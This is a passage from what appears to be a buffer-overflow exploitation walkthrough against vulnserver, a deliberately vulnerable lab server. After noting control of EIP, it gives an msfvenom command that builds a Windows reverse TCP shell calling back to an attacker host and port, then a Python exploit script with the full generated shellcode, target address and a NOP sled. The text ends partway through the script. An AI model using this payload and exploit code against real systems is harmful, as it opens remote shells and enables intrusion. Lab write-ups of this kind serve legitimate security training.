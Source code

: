 > Execute the script

![eip_controlled](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/eip_controlled.png)

> Since the EIP is controlled, we can execute arbitrary code to take control of the system.

## Gaining Reverse Shell

> Generate the reverse tcp payload shellcode

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.10.100 LPORT=1337 EXITFUNC=thread -f c -a x86 -b "\x00"
```
*shellcode.py*
```python
#!/usr/bin/python

import sys, socket

host = '172.16.10.101'
port = 9999

payload = ("\xda\xcd\xbe\xb7\xf7\xc6\xae\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
"\x52\x31\x73\x17\x03\x73\x17\x83\x5c\x0b\x24\x5b\x5e\x1c\x2b"
"\xa4\x9e\xdd\x4c\x2c\x7b\xec\x4c\x4a\x08\x5f\x7d\x18\x5c\x6c"
"\xf6\x4c\x74\xe7\x7a\x59\x7b\x40\x30\xbf\xb2\x51\x69\x83\xd5"
"\xd1\x70\xd0\x35\xeb\xba\x25\x34\x2c\xa6\xc4\x64\xe5\xac\x7b"
"\x98\x82\xf9\x47\x13\xd8\xec\xcf\xc0\xa9\x0f\xe1\x57\xa1\x49"
"\x21\x56\x66\xe2\x68\x40\x6b\xcf\x23\xfb\x5f\xbb\xb5\x2d\xae"
"\x44\x19\x10\x1e\xb7\x63\x55\x99\x28\x16\xaf\xd9\xd5\x21\x74"
"\xa3\x01\xa7\x6e\x03\xc1\x1f\x4a\xb5\x06\xf9\x19\xb9\xe3\x8d"
"\x45\xde\xf2\x42\xfe\xda\x7f\x65\xd0\x6a\x3b\x42\xf4\x37\x9f"
"\xeb\xad\x9d\x4e\x13\xad\x7d\x2e\xb1\xa6\x90\x3b\xc8\xe5\xfc"
"\x88\xe1\x15\xfd\x86\x72\x66\xcf\x09\x29\xe0\x63\xc1\xf7\xf7"
"\x84\xf8\x40\x67\x7b\x03\xb1\xae\xb8\x57\xe1\xd8\x69\xd8\x6a"
"\x18\x95\x0d\x3c\x48\x39\xfe\xfd\x38\xf9\xae\x95\x52\xf6\x91"
"\x86\x5d\xdc\xb9\x2d\xa4\xb7\x69\xa1\xac\x23\x1a\xc0\xb0\xae"
"\xe3\x4d\x56\xda\x03\x18\xc1\x73\xbd\x01\x99\xe2\x42\x9c\xe4"
"\x25\xc8\x13\x19\xeb\x39\x59\x09\x9c\xc9\x14\x73\x0b\xd5\x82"
"\x1b\xd7\x44\x49\xdb\x9e\x74\xc6\x8c\xf7\x4b\x1f\x58\xea\xf2"
"\x89\x7e\xf7\x63\xf1\x3a\x2c\x50\xfc\xc3\xa1\xec\xda\xd3\x7f"
"\xec\x66\x87\x2f\xbb\x30\x71\x96\x15\xf3\x2b\x40\xc9\x5d\xbb"
"\x15\x21\x5e\xbd\x19\x6c\x28\x21\xab\xd9\x6d\x5e\x04\x8e\x79"
"\x27\x78\x2e\x85\xf2\x38\x4e\x64\xd6\x34\xe7\x31\xb3\xf4\x6a"
"\xc2\x6e\x3a\x93\x41\x9a\xc3\x60\x59\xef\xc6\x2d\xdd\x1c\xbb"
"\x3e\x88\x22\x68\x3e\x99")

nop_sled = "\x90" * 32

```